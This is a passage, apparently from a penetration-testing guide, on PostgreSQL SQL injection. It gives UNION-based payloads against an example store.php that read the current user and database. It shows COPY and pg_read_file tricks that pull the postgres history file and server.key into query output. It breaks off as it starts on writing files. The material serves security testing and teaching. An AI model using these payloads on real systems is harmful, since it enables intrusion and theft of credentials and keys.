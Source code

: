 **Examples:**

` http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--`
` http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--`

#### Current Database

The built-in function current_database() returns the current database
name.

**Example**:

` http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Reading from a file

PostgreSQL provides two ways to access a local file:

  - COPY statement
  - pg_read_file() internal function (starting from PostgreSQL 8.1)

**COPY:**

This operator copies data between a file and a table. The PostgreSQL
engine accesses the local file system as the *postgres* user.

**Example:**

` `
`/store.php?id=1; CREATE TABLE file_store(id serial, data text)--`
`/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--`

Data should be retrieved by performing a *UNION Query SQL Injection*:

  - retrieves the number of rows previously added in *file_store* with
    *COPY* statement
  - retrieves a row at a time with UNION SQL Injection

**Example:**

`  `
`/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--`
`/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--`
`/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--`
`...`
`...`
`/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--`

**pg_read_file():**

This function was introduced in *PostgreSQL 8.1* and allows one to read
arbitrary files located inside DBMS data directory.

**Examples:**

  - SELECT pg_read_file('server.key',0,1000);

#### Writing to a file

By reverting the COPY statement, we can write to the local file system
with the *postgres* user rights
